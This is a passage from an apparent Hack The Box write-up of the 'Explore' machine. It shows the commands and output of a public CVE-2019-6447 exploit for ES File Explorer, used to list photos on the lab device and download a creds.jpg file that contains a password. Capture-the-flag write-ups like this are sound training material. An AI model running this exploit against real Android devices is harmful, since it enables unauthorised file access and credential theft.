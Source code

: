 There were quite a lot more files listed, but I cut them for brevity. The exploit seems to work.

## Foothold
Now to work towards more of a foothold on the machine, what file can we find that can help us get closer to a shell or user access. I wasn't able to find much with the listFiles command, so let's try listPics:

```text
[/home/gn0stic/htb/explore] λ python3 ./50070.py listPics explore.htb

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

name : concept.jpg
time : 4/21/21 02:38:08 AM
location : /storage/emulated/0/DCIM/concept.jpg
size : 135.33 KB (138,573 Bytes)

name : anc.png
time : 4/21/21 02:37:50 AM
location : /storage/emulated/0/DCIM/anc.png
size : 6.24 KB (6,392 Bytes)

name : creds.jpg
time : 4/21/21 02:38:18 AM
location : /storage/emulated/0/DCIM/creds.jpg
size : 1.14 MB (1,200,401 Bytes)

name : 224_anc.png
time : 4/21/21 02:37:21 AM
location : /storage/emulated/0/DCIM/224_anc.png
size : 124.88 KB (127,876 Bytes)
```

I wonder what creds.jpg is? Sounds good, let's use the same exploit to download the file locally.

```text
[/home/gn0stic/htb/explore] λ python3 ./50070.py getFile explore.htb /storage/emulated/0/DCIM/creds.jpg

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

[+] Downloading file...
[+] Done. Saved as `out.dat`.
```

Opening the file reviews what looks to be a picture of a password:


[1]: https://app.hackthebox.com/users/27897
[2]: https://www.hackthebox.eu